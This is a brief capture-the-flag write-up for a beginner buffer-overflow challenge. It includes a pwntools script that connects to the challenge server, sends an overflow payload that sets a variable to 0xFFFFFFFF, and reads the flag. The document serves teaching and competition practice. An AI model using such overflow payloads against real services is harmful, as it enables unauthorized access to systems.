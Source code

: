 #### Description

rob keeps making me write beginner pwn! i'll show him...

#### Solution

This challenge is very simple. It is a buffer overflow.  
This was the source code:  
![Alt text](./img/beginner-generic-pwn-number-0.PNG?raw=true "Title")  
If we are able to overwrite the "inspirational_message_index" variable with 0xFFFFFFFF we win.  
Also the script is self-explanatory:

```
from pwn import *

r = remote ('mc.ax', 31199)

shellcode = b"\x41"*40 + b"\xff"*8
r.sendline(shellcode)
r.interactive()
```

thanks to a cat flag.txt we find the flag.
**\*flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}**

### pwn/ret2generic-flag-reader ![c](https://img.shields.io/badge/105_points-green)
